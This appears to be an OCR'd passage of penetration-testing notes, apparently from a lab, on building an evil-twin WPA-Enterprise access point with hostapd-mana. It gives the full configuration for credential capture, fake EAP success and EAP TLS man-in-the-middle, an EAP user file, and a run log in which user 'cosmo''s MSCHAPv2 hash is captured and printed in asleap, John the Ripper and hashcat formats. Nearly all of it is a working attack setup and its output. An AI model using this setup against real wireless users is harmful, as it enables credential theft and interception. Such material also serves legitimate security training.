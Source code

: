 ```bash
# Setting up hostapd as an EAP server
ieee8021x=1
eap_server=1

# Key workaround for Win XP
eapol_key_index_workaround=0

# EAP user file we created earlier
eap_user_file=/etc/hostapd-mana/mana.eap_user

# Certificate paths created earlier
ca_cert=/etc/freeradius/3.0/certs/ca.pem
server_cert=/etc/freeradius/3.0/certs/server.pem
private_key=/etc/freeradius/3.0/certs/server.key
# The password is actually 'whatever'
private_key_passwd=whatever
dh_file=/etc/freeradius/3.0/certs/dh

# Open authentication
auth_algs=1
# WPA/WPA2
wpa=3
# WPA Enterprise
wpa_key_mgmt=WPA-EAP
# Allow CCMP and TKIP
# Note: iOS warns when network has TKIP (or WEP)
wpa_pairwise=CCMP TKIP

# Enable Mana WPE
mana_wpe=1

# Store credentials in that file
mana_credout=/tmp/hostapd.credout

# Send EAP success, so the client thinks it's connected
mana_eapsuccess=1

# EAP TLS MitM
mana_eaptls=1
```

#* 2. Write following content to `/etc/hostapd-mana/mana.eap_user`
```bash
#     PEAP,TTLS,TLS,FAST
"t"   TTLS-PAP,TTLS-CHAP,TTLS-MSCHAP,MSCHAPV2,MD5,GTC,TTLS,TTLS-MSCHAPV2    "pass"   [2]
```
#* 3. Starting RADIUS server with previous configuration
```bash
sudo hostapd-mana /etc/hostapd-mana/mana.conf

Configuration file: mana.conf
MANA: Captured credentials will be written to file '/tmp/hostapd.credout'.
Using interface wlan0 with hwaddr 16:93:8a:98:ec:4f and ssid "Playtronics"
wlan0: interface state UNINITIALIZED->ENABLED
wlan0: AP-ENABLED
MANA EAP Identity Phase 0: cosmo
wlan0: CTRL-EVENT-EAP-PROPOSED-METHOD vendor=0 method=25
MANA EAP Identity Phase 1: cosmo
MANA EAP EAP-MSCHAPV2 ASLEAP user=cosmo | asleap -C ce:b6:98:85:c6:56:59:0c -R 72:79:f6:5a:a4:98:70:f4:58:22:c8:9d:cb:dd:73:c1:b8:9d:37:78:44:ca:ea:d4
MANA EAP EAP-MSCHAPV2 JTR | cosmo:$NETNTLM$ceb69885c656590c$7279f65aa49870f45822c89dcbdd73c1b89d377844caead4:::::::
MANA EAP EAP-MSCHAPV2 HASHCAT | cosmo::::7279f65aa49870f45822c89dcbdd73c1b89d377844caead4:ceb69885c656590c
```